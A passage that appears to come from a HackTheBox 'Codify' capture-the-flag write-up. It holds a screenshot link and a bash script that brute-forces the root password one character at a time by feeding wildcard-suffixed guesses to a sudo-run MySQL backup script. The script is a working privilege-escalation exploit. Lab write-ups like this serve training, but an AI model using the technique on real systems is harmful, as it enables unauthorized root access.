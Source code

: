 ![rockyoufail](https://github.com/het-desai/hackthebox/blob/main/codify/screenshots/rockyoufail.png "Rockyou fail")

I modified my script and it looks like below which reveal the root password.

```bash
#!/bin/bash

password=""

loopStatus=0

while [ $loopStatus -ne 1 ]
do
	for alph in {a..z} {A..Z} {0..9}
	do
		validWord=$password
		tempAstrick=""
		tempAstrick=$validWord
		tempAstrick+=$alph
		tempAstrick+="*"
    	if (echo "$tempAstrick" | sudo /opt/scripts/mysql-backup.sh | grep -q "Password confirmed!")
    	then
        	password=$validWord
        	password+=$alph
    	fi
    	echo "$password $alph"
	done
done
```
